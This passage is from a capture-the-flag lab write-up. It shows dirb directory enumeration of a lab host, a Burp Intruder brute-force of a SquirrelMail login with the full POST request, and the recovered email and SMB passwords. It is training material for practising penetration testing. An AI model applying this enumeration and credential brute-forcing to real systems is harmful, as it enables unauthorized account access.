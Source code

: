 Once logged in, there are two interesting files *attention.txt* and *logs/log1.txt* ; the former gives some information on password change and latter looks like passwords for some id. Save them.

### Finding the hidden services

Using `dirb` with a word list found below directories are available on the host

```bash
    $ dirb http://10.10.166.117 /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -i -w

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Mon Jul  6 13:46:16 2020
    URL_BASE: http://10.10.166.117/
    WORDLIST_FILES: /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
    OPTION: Using Case-Insensitive Searches
    OPTION: Not Stopping on warning messages

    -----------------

    GENERATED WORDS: 81642                                                         

    ---- Scanning URL: http://10.10.166.117/ ----
    ==> DIRECTORY: http://10.10.166.117/admin/                                                        
    ==> DIRECTORY: http://10.10.166.117/css/                                                          
    ==> DIRECTORY: http://10.10.166.117/js/                                                           
    ==> DIRECTORY: http://10.10.166.117/config/                                                       
    ==> DIRECTORY: http://10.10.166.117/ai/                                                           
    ==> DIRECTORY: http://10.10.166.117/squirrelmail/  
```
There is a email service running under  `/squirrelmail/`, which is using squirrel mail.

### Cracking the Email Login
Using Burp, captured the POST request for email login and brute forced the password with the log1.txt as payload in sniper mode.
```
    POST /squirrelmail/src/redirect.php HTTP/1.1
    Host: 10.10.166.117
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.166.117/squirrelmail/src/login.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 100
    DNT: 1
    Connection: close
    Cookie: SQMSESSID=73g8reflthofn3nsanktn7v7e0
    Upgrade-Insecure-Requests: 1

    login_username=milesdyson&secretkey=cyborg007haloterminator&js_autodetect_results=1&just_logged_in=1
```
- One password from the list worked for milesdyson and it is *cyborg007haloterminator*.
- There are three emails in his inbox and one has SMB password:  *)s{A&2Z=F^n_E.B`*.
